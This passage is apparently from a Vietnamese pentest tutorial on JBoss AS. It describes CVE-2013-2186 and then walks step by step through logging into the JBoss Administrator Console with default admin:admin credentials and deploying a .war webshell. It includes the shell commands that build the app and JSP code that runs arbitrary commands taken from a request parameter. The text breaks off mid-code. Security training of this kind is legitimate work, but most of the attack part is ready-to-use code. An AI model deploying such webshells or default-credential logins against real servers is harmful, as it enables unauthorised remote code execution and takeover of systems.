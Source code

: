 
##### 5. **CVE-2013-2186 (JBoss AS 5.x)**

**Mô tả**:  
Một lỗi trong giao diện quản lý JMX cho phép kẻ tấn công từ xa có thể vượt qua các cơ chế bảo mật của JBoss và có thể truy cập vào hệ thống mà không cần phải xác thực.

**Tác động**:  
Kẻ tấn công có thể thực hiện các hành động quản trị trên hệ thống, bao gồm việc triển khai ứng dụng hoặc thay đổi cấu hình hệ thống.

### 3.2 Thực hành khai thác để upload webshell lên máy chủ

##### 1. Bypass authentication trang quản trị `Administrator Console` để upload webshell.

JBoss mặc định expose trang `Administrator Console` và sử dụng tài khoản mặc định `admin:admin` để truy cập.

[[![Screenshot 2025-05-27 110902](https://github.com/user-attachments/assets/80f09b11-865f-4071-a9b4-a115692b90aa)](https://github.com/tranphuc2005/leoquyen_linux/blob/main/image/1.png)](https://github.com/tranphuc2005/leoquyen_linux/blob/main/image/1.png)


Khi đã đăng nhập và truy cập thành công, attacker hoàn toàn chiếm quyền sở hữu của admin với đầy đủ phương thức để RCE. Ở đây mình sẽ demo RCE thông qua việc upload webshell.

Trang admin có chức năng upload 1 standalone web application ở dạng `.war`

### Cách tạo webshell application

##### **Bước 1: Tạo cấu trúc thư mục cho ứng dụng web**

1. Tạo một thư mục cho ứng dụng web của bạn. Ví dụ: `myapp`.
```js
mkdir myapp
```

2. Bên trong thư mục `myapp`, tạo một thư mục `WEB-INF` và tạo tệp `web.xml` trong đó.
```js
mkdir -p myapp/WEB-INF
touch myapp/WEB-INF/web.xml
```

##### **Bước 2: Tạo tệp JSP để thực thi các lệnh hệ thống**

1. Tạo tệp `shell.jsp` bên ngoài thư mục `WEB-INF`.
```js
touch myapp/shell.jsp

```

2. Mở tệp `shell.jsp` và dán mã sau để cho phép người dùng nhập lệnh và thực thi lệnh đó trên hệ thống:
```js
<%@ page import="java.util.*,java.io.*"%>
<%
%>
<HTML>
    <BODY>
    Commands with JSP
    <FORM METHOD="GET" NAME="myform" ACTION="">
        <INPUT TYPE="text" NAME="cmd">
        <INPUT TYPE="submit" VALUE="Send">
    </FORM>
    <pre>
        <%
        if (request.getParameter("cmd") != null) {
            out.println("Command: " + request.getParameter("cmd") + "<BR>");
            Process p = Runtime.getRuntime().exec(request.getParameter("cmd"));
```